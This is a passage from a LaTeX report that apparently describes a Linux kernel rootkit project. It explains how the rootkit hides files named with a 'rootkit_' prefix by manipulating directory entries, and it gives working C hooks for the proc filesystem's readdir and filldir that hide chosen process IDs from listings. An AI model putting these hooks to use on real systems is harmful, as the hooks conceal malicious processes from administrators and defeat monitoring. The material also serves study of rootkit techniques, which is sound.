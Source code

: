 \documentclass[10pt, letterpaper]{article}
\begin{document}
Note that \texttt{getdents64} is the function that is called in most of the cases.
We tested \texttt{getdents} using a test program (testprogram.c).

Another implementation alternative would have been to manipulate the element preceeding the entry to be hidden, such that it appears to be longer and thus kind of shades the item beginning with \texttt{rootkit\_}. Each \texttt{dirent} has a member \texttt{d\_reclen}, which stores the length of the \texttt{dirent} itself. Thus, we also could manipulate \texttt{d\_reclen} accordingly. 

However, this alternative approach brings quite some overhead in code, because you need e.g. additional tests whether the element to be hidden is the first element (the hard case) or somewhere in the middle (that works quite well).

\subsection{Process Hiding}

\label{sec:process-hiding}

Currently, we hook the \texttt{readdir} call of the \texttt{proc}-filesystem to hide the specified tasks (just as in \autoref{filehiding}). Moreover, we also employ a custom \texttt{filldir} function\footnote{\texttt{filldir\_t} is an own type in the Linux kernel for a function used to fill the contents of \texttt{readdir}.}, which actually hides the processes.

The hooked \texttt{readdir} function is quite simple:

\begin{verbatim}
int hooked_readdir(struct file *filep, void *dirent, filldir_t filldir){
    original_proc_fillfir = filldir;
    return proc_original_readdir(filep, dirent, hooked_proc_filldir);
}
\end{verbatim}

First, we remember the original \texttt{filldir} function so we can use it later. Afterwards, we call the \emph{original} \texttt{readdir} function, but we give our own \texttt{hooked\_proc\_filldir} as parameter to it. So, we ``just change parameters'' to the function.

It remains to show our hooked \texttt{filldir} function:

\begin{verbatim}
int hooked_proc_filldir (void *__buf, const char *name, int namelen, 
                         loff_t offset, u64 ino, unsigned d_type){
    char buf[512];
    struct proc_to_hide* cur;
    for(cur = processes_to_hide; cur != 0; cur = cur->next){
        sprintf(buf, "%d", cur->pid);
        if(strcmp(buf, name)==0){
            // If we come here, we hide the process.
            return 0;
        }
    }
    // If we come here, we just delegate everything to the original function.
    return original_proc_fillfir(__buf, name, namelen, offset, ino, d_type);
}
\end{verbatim}
\end{document}
